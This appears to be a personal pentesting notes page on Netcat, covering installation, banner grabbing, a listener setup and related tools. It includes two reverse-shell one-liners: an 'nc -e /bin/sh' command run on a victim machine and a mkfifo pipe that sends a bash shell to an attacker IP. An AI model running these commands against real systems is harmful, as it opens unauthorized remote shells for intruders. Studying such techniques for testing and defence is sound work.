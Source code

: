 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
## Summary
[Netcat](https://linux.die.net/man/1/nc) or *nc* is a network utility for interacting with TCP/UDP ports.
> [PowerCat](https://github.com/besimorhino/powercat) is the PowerShell equivalent of Netcat.
> [[Socat]] is a similar tool to netcat but offers additional features including full TTY reverse shells

> ncat is the Nmap version of netcat, they are different and have different features.
## Installation
```
sudo apt install netcat
```

## Documentation
**Cheatsheet:** https://quickref.me/nc.html
**Website:** 
## Usage
### Banner Grabbing
```
nc -vn [target] [port]
```
This aids us in confirming the service running on a particular port.

We can also use `curl -IL [url]` for banner grabbing web server headers.

### Create a simple reverse shell
In many versions of netcat, the *-e* flag doesn't exist so this method isn't all reliable
```shell
# On victim machine
nc -e /bin/sh [Atkbox IP] [Port]
```
- *-e* : binds a shell to a port

Without *-e*:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc [IP] [Port] > /tmp/f
```

### Create a listener
```
nc -lvnp [Port]
```
- *-l* : specifies to listen
- *-v* : more vebose
- *-n* : disables DNS resolution and uses just IPs, to speed up the connection
- *-p* : specifies the source port

![[Misc/File Transfer#Using NetCat & Ncat|File Transfer]]